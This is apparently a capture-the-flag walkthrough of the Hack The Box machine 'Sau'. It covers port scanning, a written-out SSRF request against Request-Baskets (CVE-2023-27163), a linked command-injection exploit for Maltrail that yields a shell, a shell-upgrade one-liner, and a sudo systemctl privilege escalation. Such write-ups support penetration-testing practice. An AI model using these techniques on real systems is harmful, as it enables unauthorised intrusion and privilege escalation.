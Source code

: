 ```yaml
---
title: HTB - Sau
date: 2024-01-06 00:00:00 + 1000
categories: [Web App, CTF,HTB]
tags: [htb,command-injection,cve-2023-27163,ssrf,request-baskets]
comments: false
---
```


Sau is easy rated Hack The Box machine, Sharing a walkthrough based on notes I took a while back. They might be a bit rough, but hopefully still helpful. 

## Common Enumeration 
### Nmap
I started by running an `nmap -p- -sC -sV -oA recon/nmap --open 10.10.11.224` scan which found two open ports:

- Port 22 (SSH)
- Port 55555

```bash
$ nmap -p- -sC -sV -oA recon/nmap --open 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.26s latency).
Not shown: 55545 closed tcp ports (reset), 9988 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 27 Dec 2023 08:29:14 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request                                                                                                                                         
|   GetRequest:                                                                                                                                       
|     HTTP/1.0 302 Found                                                                                                                              
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 27 Dec 2023 08:28:37 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 27 Dec 2023 08:28:38 GMT
|_    Content-Length: 0

```

### Service Enumeration on Port 55555

On port 55555, I found that the service running is `Request-Basket` version 1.2.1.

![img](/assets/img/Sau/Pastedimage20231227200243.webp)

### Vulnerability Discovery and Exploitation

After some googling, I found that `Request-Basket` version 1.2.1 is vulnerable to Server-Side Request Forgery (SSRF) identified as [CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3). This can be exploited via the `/api/baskets/{name}` endpoint. I created a new basket named `testing123`.

```bash
curl -X POST -d '{"forward_url": "http://127.0.0.1:80/login","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}' -H
'Content-Type: application/json' http://10.10.11.224:55555/api/baskets/testing123 -v
```

![img](/assets/img/Sau/Pastedimage20231227205610.webp)

To verify if the forwarding worked, I ran the following `curl` command:

```bash
curl http://10.10.11.224:55555/testing123 -v
```

This found that the server is running `Maltrail` version 0.53.

![img](/assets/img/Sau/Pastedimage20231227205759.webp)
### Exploiting Maltrail for Remote Code Execution

I found a [weaponized exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) for `Maltrail` v0.53 that leverages an unauthenticated OS command injection vulnerability in the `username` parameter

![img](/assets/img/Sau/Pastedimage20231227211104.webp)

Using this exploit, I was able to gain a shell as the `puma` user.

![img](/assets/img/Sau/Pastedimage20231227211027.webp)

## Shell as puma

I upgraded my shell using Python to make it more stable:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

### User Flag Capture

Got the `user.txt` flag

```text
puma@sau:~$ cat user.txt                                                                                                                                         
86****************************e8
```

## Privilege Escalation

For privilege escalation, I first checked for any low-hanging fruit. I found that the `puma` user could run `/usr/bin/systemctl status trail.service` with sudo permissions. So, I ran the command with sudo privileges:

```bash
sudo /usr/bin/systemctl status trail.service
```

![img](/assets/img/Sau/Pastedimage20231227212311.webp)

### Root Flag

Then, got the `root.txt` flag

```text
# cat /root/root.txt
26****************************02
```

